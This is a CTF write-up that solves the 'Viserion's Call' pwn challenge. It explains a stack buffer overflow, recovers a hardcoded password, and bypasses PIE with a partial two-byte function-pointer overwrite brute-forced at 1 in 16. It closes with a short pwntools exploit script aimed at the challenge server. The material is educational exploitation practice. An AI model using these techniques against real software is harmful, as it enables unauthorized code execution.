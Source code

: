 # Writeup for the Viserion's Call Writeup 

## Description of the Challenge:-

<b> Give me the right password!</b>

<b>Note: The server is running on 20.04 </b>



#### Files provided for the challenge are the vulnerable binary , libc.so.6 and fake flag.txt file

### Checksec:-



| Mitigation   | Stance       |
| ------------ | ------------ |
| RELRO        | FULL RELRO   |
| Stack Canary | Canary Found |
| NX           | NX Enabled   |
| PIE          | PIE Enabled  |



### This Writeup is gonna be super short because I kinda solved it in a unintended easy way



![start_meme](https://memegenerator.net/img/instances/65717385/okay-then-lets-begin.jpg)

Funny backstory is that this challenge was rated hard 

#### First Let's analyse the behaviour of the Program and Plan our Exploit:-

1) First Let's do a test run.. It asks for a name and password..And then check the password with something and print Invalid password

   ![asd](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/first.png)





2. Let's see it in a ghidra...First of all,The user defined functions present in the binary.

![user defined functions](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/second.png)



3. Most of the functions in the above images are Compiler generated functions.

4. The user defined functions in the binary are `main,initialize,password_check,hidden_func,password_view and  backdoor`

5. After viewing the decompiled code,The initialize function was obvious setting up the alarm for the timeout for the program and setting up stream buffering .

6. Let's look at the main function decompiled code.

   ![third](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/third.png)

7. The first image that takes the name as input is safe 20 bytes of string using read syscall and not even a single byte overflow here.

8. But the problem occurs at the the second input where the size of the variable is 20 and but read accepts 80 characters. Simply by reading the decompiled code gave us the vulnerability.

   ![meme2](https://i.redd.it/agw69j6z2c131.jpg)

9. But here comes the tricky part ..

   #### First of all we have to bypass the stack canary without any format string bugs,then there is PIE enabled and finally the return address of the main function is libc_start_main+243 so we can't partial write to leak puts something like that.. Just after our big breakthrough we just stumbled into something that is super hard to bypass

   

   ![meme three](https://memegenerator.net/img/instances/82098423/what-if-i-told-you-there-is-no-way-out.jpg) 

10. But let me remind you guys..I did solve this challenge super easy right.. Maybe I found something that allow me bypass all the mitigations right. 

11. When I was skimming through the decompiled code,I saw something suspicious on the main function code at line 17 which holds the address of password view function which is present in stack and gets called at line 27.

    ![one more meme](https://i.imgflip.com/61y5bv.jpg)

    12. But function pointer may also be present before the input right which may render our overflow vulnerability useless . Let's check that..

        ![ss4](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fourth.png)

Here we can see that our our name input is ajay. And our next input which is password is 8 B's above the function password which reads upto 80 characters can easily tamper the function pointer. Still we have a PIE there partial overwrite to what address tho.

14. Interestingly, When viewing through different function .. I remembered a function named backdoor. The naming of the function made me suspicious.

    So I went to see what this function does..After seeing the function.. My face totally went like this gif.

    ![mememe](https://c.tenor.com/8mnrYcikj3sAAAAC/meme-troll.gif)

15. Lemme post the decompiled code of that function here.

    ```c
    void backdoor(void)
    
    {
      FILE *__stream;
      long in_FS_OFFSET;
      char local_48 [56];
      undefined local_10;
      
      local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
      __stream = fopen("flag.txt","rb");
      if (__stream != (FILE *)0x0) {
        fgets(local_48,0x3c,__stream);
        fclose(__stream);
      }
      puts(local_48);
                        /* WARNING: Subroutine does not return */
      exit(0);
    }
    ```

    This function holds the flag which is basically the win function for this program. That means we just have to perform a local buffer overflow.

16. But the PIE offset for the backdoor function is 0x1015df and for the password_view function the offset is 0x1014a2 . 

    The input is read using read so no terminators are placed after input. 

    ## PIE works similar to ASLR which places the binary base in random regions except the first nibble and the last three nibbles will always be same while in ASLR the first two nibbles and the last three nibbles will be same

    Let me write a test C program to print out the address to show how PIE and ASLR works.

    ```c
    #include<stdio.h>
    #include<stdlib.h>
    int main()
    {
    	printf("The address of main function is %p\n",main);
    	printf("The address of system function is %p\n",system);
    }
    ```

    ![output](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fifth.png)

    Here we can see that for every execution the address of main function always changes but the last 3 nibbles and fist nibble . While the system function address changes by first two nibbles and the last three nibbles.

    So our partial two byte write still will not yield us a one shot solution but a 1/16 byte bruteforce will work .. 

17. But there is a problem in password check that if we don't give correct password the program exits which will render our overflow vulnerability useless.

18. Here is the code that exits if the check is failed in password check function.

    ```c
      local_20 = *(long *)(in_FS_OFFSET + 0x28);
      local_38 = 0x705f337275633373;
      local_30 = 0x64723077737334;
      local_28 = 0;
      local_3c = 0;
      while( true ) {
        sVar1 = strlen((char *)&local_38);
        if (sVar1 <= (ulong)(long)local_3c) break;
        if ((&stack0x0000001c)[local_3c] != *(char *)((long)&local_38 + (long)local_3c)) {
          puts("Invalid Password");
                        /* WARNING: Subroutine does not return */
          exit(0);
        }
        local_3c = local_3c + 1;
      }
      puts("Correct Password!");
    ```

    

    19. But it is actually easy, when u convert the hex to string the password is found out to be `s3cur3_p4ssw0rd`.

    20. But think about it,it checks for the string `s3cur3_p4ssw0rd` but our password also needs to have the partial two byte write payload.

    21. But strcmp only checks until null byte tho. While read does not have any null byte terminator like strcpy.

    22. The Exploit source code for the challenge is:-

        ```python
        #!/usr/bin/env python3
        
        
        
        from pwn import *
        from time import sleep
        
        e = ELF("./viserions_call")
        #r = process("./viserions_call")
        r = remote("gc1.eng.run",32680)
        r.sendline(b"A" * 10)
        sleep(0.5)
        r.send(b"s3cur3_p4ssw0rd\x00\x00\x00\x00\x00" + p16(0x15df))
        r.interactive()
        
        ```

        This Exploit works in a possibility  of 1/16.

        ## Me after completing this challenge in a super easy way with all mitigations present with difficulty stated as hard

        ![final meme](https://i.kym-cdn.com/photos/images/newsfeed/002/008/781/65d.png)

### Final note: Author said the intended solution was to use vsyscalls and finally use a partial one byte overwrite to solve this challenge.

